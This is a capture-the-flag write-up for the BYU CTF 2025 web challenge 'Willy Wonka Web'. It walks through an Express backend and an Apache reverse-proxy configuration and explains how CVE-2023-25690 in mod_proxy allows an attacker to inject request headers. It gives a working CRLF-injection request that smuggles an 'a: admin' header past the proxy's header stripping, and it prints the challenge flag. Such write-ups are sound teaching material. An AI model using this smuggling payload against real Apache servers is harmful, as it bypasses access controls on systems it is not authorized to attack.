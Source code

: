 ```yaml
---
title: BYU CTF 2025 - WEB
date: 2025-05-18
tags: [ctf, web]
categories: [CTF Writeups]
author: 2Fa0n
img_path: /assets/img/byu-ctf_2025
image: /assets/img/byu-ctf_2025/byu-ctf_banner.png
---
```


# Web
## Willy Wonka Web
**Solvers:** 191 <br>
**Author:** Legoclones

### Description
Welcome to the world of web! Can you get the flag?

![willy wonka](/assets/img/byu-ctf_2025/willy-wonka.png)

### Solution
When starting the challenge, we see a simple webpage displaying "It works!". After examining the provided source code, we identify two main components:

1. Backend (`server.js`)
```js
// imports
const express = require('express');
const fs = require('fs');

// initializations
const app = express()
const FLAG = fs.readFileSync('flag.txt', { encoding: 'utf8', flag: 'r' }).trim()
const PORT = 3000

// endpoints
app.get('/', async (req, res) => {
    if (req.header('a') && req.header('a') === 'admin') {
        return res.send(FLAG);
    }
    return res.send('Hello '+req.query.name.replace("<","").replace(">","")+'!');
});

// start server
app.listen(PORT, async () => {
    console.log(`Listening on ${PORT}`)
});
```

2. Frontend (`httpd.conf`)
```conf
LoadModule rewrite_module modules/mod_rewrite.so
LoadModule proxy_module modules/mod_proxy.so
LoadModule proxy_http_module modules/mod_proxy_http.so

<VirtualHost *:80>

    ServerName localhost
    DocumentRoot /usr/local/apache2/htdocs

    RewriteEngine on
    RewriteRule "^/name/(.*)" "http://backend:3000/?name=$1" [P]
    ProxyPassReverse "/name/" "http://backend:3000/"

    RequestHeader unset A
    RequestHeader unset a

</VirtualHost>
```

The backend is a simple Node.js server that listens on port 3000 and returns the flag if the `a` header is set to `admin`. The frontend is an Apache server that proxies requests to the backend.

When we try to inject the another header `a: admin` in the request, it gets:

![name](/assets/img/byu-ctf_2025/name.png)

We found that Apache is configured to strip `a` and `A` headers before forwarding.

We need to bypass this header filtering mechanism to send the `a: admin` header to the backend.

After using wappalyzer, we found that the web server is `Apache` version `2.4.55`, search for its CVE and found [CVE-2023-25690](https://github.com/dhmosfunk/CVE-2023-25690-POC) which is a vulnerability in `mod_proxy` module leads to HTTP Request Smuggling.

- `mod_proxy` is enabled
- A RewriteRule with variable substitution (like $1) is used
- The pattern captures data from user-supplied URLs

&rarr; This vulnerability allows injecting CRLF into the URL, we need to create new headers in the request after it has been processed by Apache.

Let's modified the burp request to this:
```
GET /name/%0D%0Aa:%20admin%0D%0Aabc:%20edf HTTP/2
```

![name2](/assets/img/byu-ctf_2025/name2.png)

Here is the flow of the request:
- When we send a request to `/name/%0D%0Aa:%20admin%0D%0Aabc:%20edf`
- Apache URL-decodes this to `/name/\r\na: admin\r\nabc: edf`
- The RewriteRule ^/name/(.*) captures `\r\na: admin\r\nabc: edf`
- When rewriting the request to the backend, this becomes:
```https
GET /name/ HTTP/2
a: admin
abc: edf HTTP/2
Host: backend
...other headers...
```
- The backend receives the `a: admin` header and returns the flag

**Flag:** `byuctf{i_never_liked_willy_wonka}`